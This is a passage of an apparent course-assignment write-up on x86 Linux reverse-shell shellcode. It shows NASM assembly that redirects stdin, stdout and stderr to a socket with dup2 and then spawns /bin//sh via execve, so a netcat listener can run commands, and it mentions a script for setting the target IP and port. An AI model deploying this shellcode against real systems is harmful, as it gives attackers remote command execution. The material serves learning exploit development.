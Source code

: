 Next, we're ready to redirect `stdin`/`stdout`/`stderr` towards the server socket.

```nasm
    ; loop counter (repeats dup2() three times)
    mov ecx, ebx

RepeatDuplicate:
    ; save ecx since it's modified later
    push ecx

    ; dup2() syscall
    mov al, 63

    ; Client file descriptor
    mov ebx, esi

    ; Redirect this file descriptor (stdin/stdout/stderr) to the Client File descritptor
    mov ecx, DWORD [esp]
    dec ecx

    ; call dup2()
    int 0x80

    ; restore ecx and check if loop is over
    pop ecx
    loop RepeatDuplicate
```

As for the previous assignment, the `loop` instruction repeats the routine `RepeatDuplicate` three times, once for `stderr` (`0x2`), `stdout` (`0x1`), and for `stdin` (`0x0`):

Finally, it spawns a shell:

```nasm
    push ecx
    push 0x68732f6e
    push 0x69622f2f
    mov ebx, esp

    ; execve syscall
    xor eax, eax
    mov al, 11
    int 0x80
```

From now, every message that will be sent from the netcat listener is going to be interpreted as a command, since the file descriptors of the `shell` are redirected to those of the `socket`. 

## Automation

One of the requirements of the assignment is to be able to easily configure `IP address` and `TCP port`. For this reason, I chose to reuse the script I wrote for the first assignment, to which I've made some small changes in order to use arbitrary IP addresses too.
